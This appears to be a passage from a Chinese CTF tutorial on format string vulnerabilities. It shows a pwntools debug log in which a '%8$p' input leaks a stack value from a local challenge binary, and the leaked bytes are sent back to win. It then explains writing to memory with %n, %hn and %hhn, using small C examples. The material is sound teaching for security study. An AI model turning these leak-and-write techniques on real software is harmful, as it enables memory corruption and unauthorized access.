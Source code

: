 程序输出如下：

```shell
[DEBUG] Received 0x1c bytes:
    'Hi, please input your name:\n'
[DEBUG] Sent 0x5 bytes:
    'root\n'
[DEBUG] Received 0x39 bytes:
    'root welcome to go home !\n'
    'Oh, I also need your password:\n'
[DEBUG] Sent 0x5 bytes:
    '%8$p\n'
[DEBUG] Received 0x40 bytes:
    'Your password 0x90b126967cc6caa3 seem not ture......\n'
    'Try again!\n'
[DEBUG] Sent 0x9 bytes:
    00000000  a3 ca c6 7c  96 26 b1 90  0a                        
    00000009
[*] Switching to interactive mode

[*] Process './pwn1' stopped with exit code 0 (pid 11275)
[DEBUG] Received 0x11 bytes:
    'You are my root!\n'
You are my root!
```

# 格式化字符串利用—写

## 漏洞原理

`printf`除了能将数据输出至标准输出，还能将数据输出至某一地址。`printf`通过`%n、%hn、%hhn`三个参数将**已打印的字符个数**输出至格式化参数对应的地址中，如：

```c
#include<stdio.h>
int main()
{
    int a = 0;
    printf("aaaa%n",&a);
    printf("%d",a);
    return 0;
}
// -> a = 4
```

可以通过格式化串中的输出占位符来调整输出字符串的个数：

```c
#include <stdio.h>

int main()
{
   char a = 'a';
	int b = 10;
   printf("%30c%n",a,&b);
   printf("%d",b);
   return 0;
}
// -> b = 30
```
